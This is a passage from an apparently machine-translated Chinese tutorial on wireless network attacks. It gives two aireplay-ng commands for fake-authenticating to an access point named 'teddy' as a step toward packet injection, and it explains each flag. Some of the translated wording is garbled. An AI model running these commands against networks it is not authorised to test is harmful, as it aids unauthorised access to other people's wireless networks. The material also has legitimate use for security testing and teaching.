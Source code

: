 在这一步中，您可以使用 airplay-ng 对接入点进行假认证。对于接受数据包的接入点，源 MAC 地址应该已经关联。否则，AP 将忽略该数据包，并以明文形式发送一个“取消身份验证”数据包。没有创建新的 IV，因为 AP 忽略了所有注入的数据包。

注入失败的最大原因是缺乏与接入点的通信。您用于注入的 MAC 应该使用假认证或使用来自已经与 AP 关联的客户端的 MAC 与 AP 关联。

现在与一个接入点关联，使用如下所示的假认证:

```
 aireplay-ng -1 0 -e teddy -a 00:14:6C:7E:40:80 -h 00:0F:B5:88:AC:82 ath0
```

在上面的命令中:

**–>-1:**表示假认证。

**–>0:**以秒为单位显示重关联时间。

**–>-e 泰迪:**是无线网络名称。

**–>-a 00:14:6C:7E:40:80:**这是接入点 MAC 地址。

**–>-h00:0F:B5:88:AC:82:**是卡的 MAC 地址。

**–>ath 0:**是无线接口名称。

如果您收到以下信息，您已经成功了:

![fake-authentication](img/db367e80697797a0ff5e22ab5150702a.png)

挑剔接入点的另一种变化如下:

```
aireplay-ng -1 6000 -o 1 -q 10 -e teddy -a 00:14:6C:7E:40:80 -h 00:0F:B5:88:AC:82 ath0
```

那就是:

**–>6000:**每 6000 秒重新认证一次。长周期也保持包存活。

**–>-O1:**一次发送一套套餐。缺省值是 multiple，这让一些 AP 感到困惑。

**–>-Q10:**每 10 秒发送一次保活数据包。

成功将看起来如下:

![Authentication-success](img/c4755dae24a7c2490984d0e9f08409df.png)
